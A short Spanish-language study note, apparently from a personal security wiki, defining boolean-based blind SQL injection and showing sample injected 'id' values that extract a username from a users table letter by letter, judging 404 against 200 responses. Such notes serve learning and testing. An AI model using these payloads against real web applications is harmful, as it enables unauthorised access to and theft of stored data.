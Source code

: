 # Boolean-based Blind SQL Injection

***

* Tags: #OWASP\_TOP\_10 #vulnerabilidad #hacking #sql #exploiting

***

## Definición

> La **Inyección SQL basada en Booleanos** es un tipo de \[\[SQL Injection]] en el que los atacantes manipulan consultas en aplicaciones web para obtener información de la base de datos al evaluar respuestas verdaderas o falsas, lo que puede resultar en acceso no autorizado o robo de datos.

El objetivo principal de esta inyección es intentar deducir caracteres concretos, según la evaluación de una condición.

Insertando algo como lo siguiente, podemos burlar el código, de manera que si obtenemos un código de error 404 significa que la primera palabra no es una a (97 en ascii), por lo que podríamos ir probando con todas las letras hasta encontrar la correcta :

```
#PROBANDO PRIMER CARÁCTER
id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=97)   # Error 404
id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=98)   # Error 404
id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=99)   # 200 Ok => La primera letra es la c

#PROBANDO SEGUNDO CARÁCTER
id=9 or (select(select ascii(substring(username,2,1)) from users where id = 1)=97)   # Error 404
id=9 or (select(select ascii(substring(username,2,1)) from users where id = 1)=97)   # Error 404
...
```

Utilizamos dicho principio para programar en python el script \[\[sqli.py]].
